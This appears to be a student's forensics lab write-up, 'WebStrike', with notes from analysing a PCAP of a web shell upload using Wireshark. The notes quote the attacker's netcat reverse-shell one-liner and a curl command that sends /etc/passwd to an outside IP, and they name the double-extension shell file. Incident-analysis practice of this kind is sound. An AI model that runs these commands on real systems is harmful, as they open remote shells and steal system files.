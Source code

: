 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

1. Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: Network Diagram*

## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd http://117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
